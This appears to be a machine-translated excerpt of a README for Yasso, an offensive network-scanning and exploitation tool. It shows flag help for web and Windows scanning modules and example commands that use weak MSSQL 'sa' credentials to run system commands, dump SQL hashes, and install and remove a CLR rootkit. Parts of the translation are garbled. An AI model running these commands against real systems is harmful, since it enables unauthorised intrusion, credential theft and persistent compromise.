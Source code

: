 ```
Usage:
  Yasso webscan [flags]

Flags:
  -h, --help            help for webscan
  -H, --hosts hosts     Set hosts(The format is similar to Nmap)
      --ping            Use ping to scan alive host
  -p, --ports ports     Set ports(The format is similar to Nmap)(eg.) 1-2000,3389
      --proxy string    Set socks5 proxy and use it
  -r, --runtime int     Set scanner ants pool thread (default 508)
  -t, --time duration   Set timeout (eg.) -t 50ms(ns,ms,s,m,h) (default 1s)
```

<b>winscan module: Windows host netBIOS recognition, OXID network card discovery, SMB host fingerprint - support SOcks5
proxy</b>

```
netbios、smb、oxid scan

Usage:
  Yasso winscan [flags]

Flags:
      --all             Set all flag and use oxid,netbios,smb scan (default true)
  -h, --help            help for winscan
  -H, --hosts hosts     Set hosts(The format is similar to Nmap)
      --netbios         Set netbios flag and use netbios scan
      --oxid            Set oxid flag and use oxid scan
      --proxy string    Set socks5 proxy and use it
      --smb             Set smb flag and use smb scan
      --time duration   Set net conn timeout (default 1s)
```

## Example👿

Scan service invocation for the ALL module

```
Yasso. Exe all - 192.168.248.1/24 H
```

![image](https://user-images.githubusercontent.com/74412075/148240369-14cc4c77-e4f8-4fd1-8faa-e716852d3ed8.png)

MSSQL commands perform powerlifting and WarSQLKit -CLR Rookit install and uninstall the powerlifting function

```
Yasso.exe crack MSSQL --user sa --pass "admin@123" -c whoami --hostname 192.168.248.128
Yasso.exe crack MSSQL --user sa --pass "admin@123" -c whoami --hostname 192.168.248.128 --method 2
Yasso.exe crack MSSQL --user sa --pass "admin@123" -c whoami --hostname 192.168.248.128 --inkit 1
Yasso.exe crack MSSQL --hostname 192.168.248.128 --user sa --pass "admin@123" -- CLD "sp_getSqlHash"
Yasso.exe crack MSSQL --hostname 192.168.248.128 --user sa --pass "admin@123" -- CLD "whoami"
Yasso.exe crack MSSQL --user sa --pass "admin@123" -c whoami --hostname 192.168.248.128 --unkit 1
```
